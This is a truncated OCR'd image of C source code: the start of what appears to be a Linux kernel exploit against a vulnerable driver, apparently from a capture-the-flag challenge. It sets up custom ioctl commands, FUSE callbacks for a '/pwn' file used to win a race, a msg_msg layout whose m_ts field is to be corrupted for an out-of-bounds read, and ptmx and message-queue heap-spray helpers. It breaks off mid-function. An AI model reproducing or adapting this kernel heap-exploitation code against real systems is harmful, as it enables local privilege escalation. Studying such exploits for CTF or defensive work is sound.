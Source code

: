 ```c

#define CMD_ALLOC 0xBAADC0DE
#define CMD_SHOW 0x1337C0DE
#define CMD_WRITE 0xCAFEBABE
#define CMD_REALLOC 0xFEEDC0DE

#define NORMAL_PAGE_ADDR (void*)0x1337000
#define FUSE_PAGE_ADDR (void*)0x1338000

struct user_req {
  unsigned char * data;
  size_t size;
};

int leak_msgq = -1;
int fd;
static char fuse_file_data[0x1000];
static int race_active = 0;

// msg_msg structure layout
struct msg_msg_layout {
  void * next;
  void * prev;
  long type;
  size_t m_ts; // This is what we'll corrupt for OOB read
  // message data follows
};

void fatal(const char * msg) {
  perror(msg);
  exit(1);
}

static int getattr_callback(const char * path, struct stat * stbuf) {
  memset(stbuf, 0, sizeof(struct stat));
  if (strcmp(path, "/pwn") == 0) {
    stbuf -> st_mode = S_IFREG | 0777;
    stbuf -> st_nlink = 1;
    stbuf -> st_size = 0x1000;
    return 0;
  }
  return -ENOENT;
}

static int open_callback(const char * path, struct fuse_file_info * fi) {
  puts("[+] open_callback");
  return 0;
}

int ptmx[0x20];
void send_msg(int qid,
  const void * msg_buf, size_t size, long mtype) {
  struct msgbuf {
    long mtype;
    char mtext[size - 0x30];
  }
  msg;

  msg.mtype = mtype;
  memcpy(msg.mtext, msg_buf, sizeof(msg.mtext));

  if (msgsnd(qid, & msg, sizeof(msg.mtext), 0) == -1) {
    perror("msgsnd");
```